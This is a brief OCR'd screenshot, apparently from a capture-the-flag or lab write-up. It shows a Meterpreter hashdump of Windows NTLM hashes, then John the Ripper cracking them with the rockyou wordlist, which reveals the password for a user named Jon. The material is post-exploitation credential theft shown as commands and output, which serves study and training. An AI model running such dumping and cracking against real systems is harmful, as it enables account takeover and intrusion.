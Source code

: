 meterpreter > hashdump
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Jon:1000:aad3b435b51404eeaad3b435b51404ee:ffb43f0de35be4d9917ac0cc8ad57f8d:::


sudo john --format=NT --rules --wordlist=/usr/share/wordlists/rockyou.txt hashes
Using default input encoding: UTF-8
Loaded 2 password hashes with no different salts (NT [MD4 256/256 AVX2 8x3])
Press 'q' or Ctrl-C to abort, almost any other key for status
                 (Administrator)
alqfna22         (Jon)
2g 0:00:00:04 DONE (2020-05-27 14:54) 0.4889g/s 2493Kp/s 2493Kc/s 2495KC/s alr19882006..alpusidi
Warning: passwords printed above might not be all those cracked
Use the "--show --format=NT" options to display all of the cracked passwords reliably
Session completed

